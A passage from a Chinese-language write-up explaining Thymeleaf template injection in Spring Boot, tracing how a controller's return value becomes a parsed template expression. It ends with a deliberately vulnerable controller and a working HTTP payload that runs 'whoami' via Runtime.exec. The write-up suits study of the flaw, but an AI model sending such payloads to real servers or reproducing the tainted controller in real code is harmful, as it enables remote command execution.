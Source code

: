 在函数中，调用`this.returnValueHandlers.handleReturnValue`去处理返回结果。最终在`org.springframework.web.servlet.mvc.method.annotation.ViewNameMethodReturnValueHandler#handleReturnValue`方法中，将controller返回值作为视图名称。代码如下

     @Override
        public void handleReturnValue(@Nullable Object returnValue, MethodParameter returnType,
                ModelAndViewContainer mavContainer, NativeWebRequest webRequest) throws Exception {

            if (returnValue instanceof CharSequence) {
                String viewName = returnValue.toString();
                mavContainer.setViewName(viewName);
                if (isRedirectViewName(viewName)) {
                    mavContainer.setRedirectModelScenario(true);
                }
            }

spring
boot最终在`org.springframework.web.servlet.DispatcherServlet#processDispatchResult`方法中，调用Thymeleaf模板引擎的表达式解析。将上一步设置的视图名称为解析为模板名称，并加载模板，返回给用户。核心代码如下`org.thymeleaf.standard.expression.IStandardExpressionParser#parseExpression`

            final String viewTemplateName = getTemplateName();
            final ISpringTemplateEngine viewTemplateEngine = getTemplateEngine();

          
            final IStandardExpressionParser parser = StandardExpressions.getExpressionParser(configuration);

            final FragmentExpression fragmentExpression;
            try {
                // By parsing it as a standard expression, we might profit from the expression cache
                fragmentExpression = (FragmentExpression) parser.parseExpression(context, "~{" + viewTemplateName + "}");
            } catch (final TemplateProcessingException e) {
                throw new IllegalArgumentException("Invalid template name specification: '" + viewTemplateName + "'");
            }

0x04 不安全的java代码
---------------------

#### 第一种：

        @GetMapping("/path")
        public String path(@RequestParam String lang) {
            return  lang ; //template path is tainted
        }

在查找模板中，引用了用户输入的内容

payload

    GET /path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22whoami%22).getInputStream()).next()%7d__::.x HTTP/1.1
    Host: www.0-sec.org:8090
    Connection: close
